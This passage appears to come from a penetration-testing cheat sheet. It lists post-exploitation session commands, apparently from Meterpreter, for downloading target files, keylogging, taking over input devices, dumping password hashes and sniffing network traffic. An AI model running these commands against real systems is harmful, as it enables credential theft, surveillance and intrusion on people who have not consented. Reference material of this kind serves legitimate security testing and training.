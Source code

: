 * **Download a file from the target:**

```bash
download <file>
```

* **Start keylogging:**

```bash
keyscan_start
```

* **Dump captured keystrokes:**

```bash
keyscan_dump
```

* **Stop keylogging:**

```bash
keyscan_stop
```

* **Get available privileges:**

```bash
getprivs
```

* **Take control of input devices:**

```bash
uictl enable <keyboard/mouse>
```

* **Background the current session:**

```bash
background
```

* **Dump password hashes:**

```bash
hashdump
```

* **Load the sniffer module:**

```bash
use sniffer
```

* **List network interfaces:**

```bash
sniffer_interfaces
```

* **Start sniffing on an interface:**

```bash
sniffer_start <id> <packet-buffer>
```
